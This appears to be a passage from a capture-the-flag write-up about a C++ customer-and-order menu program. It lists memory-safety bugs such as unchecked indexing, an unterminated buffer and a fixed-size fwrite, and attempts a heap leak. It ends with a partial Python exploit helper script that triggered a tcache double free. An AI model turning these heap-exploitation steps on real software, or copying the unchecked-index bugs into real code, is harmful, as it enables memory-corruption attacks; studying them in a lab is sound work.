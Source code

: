    ```cpp
       string description_;
       vector<Order*> * orders_;
   }
   ```
2. `fill_buf()` doesn't terminate buf
3. order editing in `alter_customer()` use [] operator instead of `at(idx)` (no bound check)
4. `show_customer()` doesn't have length check

   ```cpp
   void show_customer() {
     Customer * customer;
   
     size_t choice;
     cout << "Customer to show: " << endl;
     cin >> choice;
     customer = customers[choice];
     customer->print();
   }
   ```
5. `fwrite()` writes fixed `0x50` bytes instead of check buf's length

   ```cpp
   #define DESCRIPTION_SIZE 0x50
   		void print_description() {
         fwrite(description_, DESCRIPTION_SIZE, 1, stdout);
       }
   ```

## heap leak

(4) seems promise for a heap leak, but in practice, it is barely possible to find a block of memory that fits `Customer` object frame. 

After spamming each option, I accidently got a double free `free(): double free detected in tcache 2` with this!

```python
def add_customer(name):
    cmd(b'1')
    arg(name)

def edit_name(idx, name):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'1')
    arg(name)
        
def add_order(idx, value, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'3')
    payload = value + des
    if len(des) == 0x50:
        p.sendafter(b': ', payload)
    else: 
        p.sendlineafter(b': ', payload)

def print_help(order=True):
    cmd(b'4')
    if order:
        cmd(b'1')
    else:
        cmd(b'2')
        
for i in range(15):
    add_customer(b'\x00')
```